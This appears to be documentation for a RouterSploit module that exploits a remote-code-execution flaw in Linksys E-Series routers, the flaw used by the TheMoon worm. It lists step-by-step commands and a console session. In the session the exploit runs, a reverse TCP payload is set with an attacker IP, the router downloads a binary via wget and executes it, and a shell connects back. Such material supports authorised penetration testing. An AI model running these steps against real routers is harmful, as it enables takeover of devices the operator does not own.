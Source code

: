 ## Description

This module exploits remote code execution vulnerability in multiple Linksys E-Series devices.
Vulnerability was actively used by TheMoon worm.

## Verification Steps

    1. Start `./rsf.py`
    2. Do: `use exploits/routers/linksys/eseries_themoon_rce`
    3. Do `uset target [TargetIP]`
    4. Do `run`
    5. If router is vulnerable, it should be possible to execute commands on operating system level.

    6. Do `set payload reverse_tcp`
    7. Do `set lhost [AttackerIP]`
    8. Do `run`
    9. Payload is sent to device and executed providing attacker with the command shell.

## Scenarios

```
rsf > use exploits/routers/linksys/eseries_themoon_rce
rsf (Linksys E-Series TheMoon RCE) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (Linksys E-Series TheMoon RCE) > run
[*] Running module...
[+] Target appears to be vulnerable

[+] Welcome to cmd. Commands are sent to the target via the execute method.
[*] For further exploitation use 'show payloads' and 'set payload <payload>' commands.

cmd > show payloads
[*] Available payloads:

   Payload         Name                   Description
   -------         ----                   -----------
   bind_tcp        MIPSBE Bind TCP        Creates interactive tcp bind shell for MIPSBE architecture.
   reverse_tcp     MIPSBE Reverse TCP     Creates interactive tcp reverse shell for MIPSBE architecture.

cmd > set payload reverse_tcp
cmd (MIPSBE Reverse TCP) > show options

Payload Options:

   Name      Current settings     Description
   ----      ----------------     -----------
   lhost                          Connect-back IP address
   lport     5555                 Connect-back TCP Port


cmd (MIPSBE Reverse TCP) > set lhost 192.168.1.4
lhost => 192.168.1.4
cmd (MIPSBE Reverse TCP) > run
[*] Using wget method
[*] Using wget to download binary
[*] Executing payload on the device
[*] Waiting for reverse shell...
[*] Connection from 192.168.1.1:41933
[+] Enjoy your shell
```
